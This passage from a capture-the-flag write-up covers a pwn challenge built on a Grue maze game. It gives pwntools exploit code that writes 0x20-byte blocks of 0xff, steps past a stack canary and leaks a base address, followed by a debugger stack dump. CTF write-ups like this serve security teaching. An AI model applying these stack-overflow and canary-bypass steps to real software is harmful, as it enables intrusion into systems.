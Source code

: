 ```python

    if gx != dx:
        for i in range(40 - x):
            p.sendlineafter(b'): ', b'x')
            p.sendafter(b'?\n', 0x20 * b'\xff')
            p.sendlineafter(b'): ', b'd')

    log.info('time check: {s}s'.format(s = time.time() - t))
```

With the rand seed confirmed we can move on and compute the location of the Grue.

> It's important to follow the code and check all calls to `rand()` so that you call them in the correct order in your exploit code.

With the location of the Grue known we can move to the lower right corner without prematurely ending our run with a Grue collision.

> Above I ignored the cases were the Grue was on the lower right corner, or started where we started, or if both of us were on an edge.  For the edge cases, I just started over.
            
```python
    # lets bust out of here, return to the east
    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', 0x20 * b'\xff')
    p.sendlineafter(b'): ', b'd')

    # canary block, cannot change, but can check for East/West
    _ = p.recvuntil(b'What would you like')
    if b'West' not in _:
        log.critical('cannot backtrack 4')
        p.close()
        continue
    if b'East' not in _:
        log.critical('cannot forwardtrack 2')
        p.close()
        continue
```

Just like [pwn/magic-marker](../magic-marker), we move East `0x20` bytes at a time with the ability to change all `0x20` bytes, and just like [pwn/magic-marker](../magic-marker) we skip over the canary, however this time we'll read a specific block first before overwriting it to get a base address leak.

> Note the checks for East/West movement.  From the tile/block with the canary there's a stack pointer on the stack line that contains the wall nibble.  We cannot check directly, but the game will check for us.  It is required that we have both East and West movement to move forward and eventually back.  With a 50/50 probability of each bit being set there's only a 1 in 4 chance of making it past this check.

Stack just before `fgets` (in next code block below):

```
0x00007fff43a62280│+0xc800: 0xffffffffffffffff
0x00007fff43a62288│+0xc808: 0xffffffffffffffff
0x00007fff43a62290│+0xc810: 0xffffffffffffffff
0x00007fff43a62298│+0xc818: 0xffffffffffffffff

0x00007fff43a622a0│+0xc820: 0x0000000000000100
0x00007fff43a622a8│+0xc828: 0x3355a9ac1aa38c00
0x00007fff43a622b0│+0xc830: 0x000056280c8015d8  →  "Oh no! The ground gives way and you fall into a da[...]"
0x00007fff43a622b8│+0xc838: 0x00007fff43a622f0  →  "jump up and down\n"

0x00007fff43a622c0│+0xc840: 0x000056280c801217  →  "jump up and down\n"	 ← $rdi, $r13
0x00007fff43a622c8│+0xc848: 0x000056280c8011fc  →  "I'm not sure I understand."
0x00007fff43a622d0│+0xc850: 0x00007fff43a62420  →  0x0000000000000001
0x00007fff43a622d8│+0xc858: 0x0000000000000000
```